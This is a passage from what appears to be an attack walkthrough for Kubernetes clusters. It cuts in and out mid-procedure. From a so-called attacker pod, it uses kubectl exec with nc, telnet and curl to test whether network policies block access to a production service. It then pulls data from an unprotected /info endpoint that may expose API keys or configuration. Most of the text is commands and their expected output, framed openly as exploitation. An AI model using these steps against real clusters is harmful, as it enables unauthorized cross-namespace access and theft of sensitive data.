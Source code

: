     **Why:** To verify if network policies are blocking traffic between the attacker's pod and the target service.

    **Expected Output:**

    *   **Successful Connection:** Indicates that network policies are not blocking the traffic.

    ```
    Connection to api-service.production.svc.cluster.local 80 port [tcp/http] succeeded!
    ```

    *   **Failed Connection:** Indicates that network policies are likely blocking the traffic.

    ```
    nc: connect to api-service.production.svc.cluster.local port 80 (tcp) failed: Connection refused
    ```

    If the connection is refused, it's likely that network policies are in place preventing inter-namespace communication.  This would hinder the exploit.

    **Alternative:**  If `nc` is unavailable, you can try installing it within the pod (if possible) using package managers like `apt-get` or `yum`, or use a tool like `telnet`:

    ```bash
    kubectl exec -it attacker-pod-6d6859b7bb-5q686 -n <attacker-namespace> -- telnet api-service.production.svc.cluster.local 80
    ```

    A successful telnet connection will display `Connected to api-service.production.svc.cluster.local`.

### Exploitation Phase: Accessing and Exploiting the Target Service

**Assuming successful connectivity to the target service (e.g., `api-service` in the `production` namespace on port 80), proceed with the following steps.** This section assumes the api-service has an unprotected endpoint at `/info`. Adapt the commands to the specifics of the target service.

1.  **Access the Target Service via `curl`:**

    ```bash
    kubectl exec -it attacker-pod-6d6859b7bb-5q686 -n <attacker-namespace> -- curl http://api-service.production.svc.cluster.local/info
    ```

    **Explanation:**  Uses `curl` inside the attacker's pod to send an HTTP request to the `/info` endpoint of the target service.

    **Why:**  To attempt to access the service and potentially retrieve sensitive information or trigger an action.

    **Expected Output:**

    *   **Success (Vulnerable):** The service responds with data, indicating that it's accessible and potentially vulnerable.  This could be sensitive data, API keys, or configuration details.

    ```json
    {"version": "1.0", "environment": "production", "database_url": "example.com"}
    ```
